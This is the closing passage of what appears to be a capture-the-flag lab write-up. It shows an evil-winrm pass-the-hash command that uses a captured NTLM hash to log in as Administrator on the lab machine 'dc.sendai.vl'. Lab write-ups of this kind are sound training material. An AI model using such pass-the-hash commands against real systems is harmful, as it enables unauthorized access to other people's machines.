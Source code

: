 I simply use pass-the-hash technique with evil-winrm to gain access to the machine as Administrator, loot the root flag and root the box. :D
```
evil-winrm -i dc.sendai.vl -u 'Administrator' -H cfb106feec8b89a3d98e14dcbe8d087a
```
![5e981761e7e6f41335d2e0b590b8cbf1.png](/resources/5e981761e7e6f41335d2e0b590b8cbf1.png)

https://labs.hackthebox.com/achievement/machine/1438364/712
***